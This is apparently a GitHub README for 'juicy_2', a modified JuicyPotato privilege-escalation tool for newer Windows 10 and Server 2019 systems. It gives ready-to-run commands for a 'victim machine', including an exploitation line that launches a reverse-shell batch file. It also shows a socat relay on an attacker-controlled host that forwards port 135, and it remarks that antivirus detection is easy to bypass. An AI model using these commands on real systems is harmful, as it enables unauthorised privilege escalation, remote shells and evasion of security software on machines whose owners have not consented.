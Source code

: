 # juicy_2
juicypotato for win10 > 1803 &amp; win server 2019<br>
<b>Disclaimer:</b><br>
This is just a quick & dirty modification of our JuicyPotato in order to test valid CLSID's an to impersonate them for newer windows 10 and windows server 2019 platforms.<br>
(I know, this version is catched by Defender and other AV's, but with some modifications in code it's easy to bypass)
<br>
Mandatory requisite is to have the possibility to reidirect traffic for port 135 on a forwarder machine under you control.<br>
Feel free to improve the code, I was too lazy for this kind of stuff. <br>
<br><br>
For testing CLSID:<br>
juicy_2 -z -x [ip] of socat listener  -l [fake oxid resolver port] -n [local RPC server port] -c [CLSID] to test:<br>
Example:
  on victim machine:
  juicy_2 -z -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}
  on 192.168.1.1: <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995 
<br>For exploitation:<br>
  on victim machine:<br>
  juicy_2 -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} -t * -p c:\temp\reverse.bat<br>
  on 192.168.1.1: <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995<br>
  
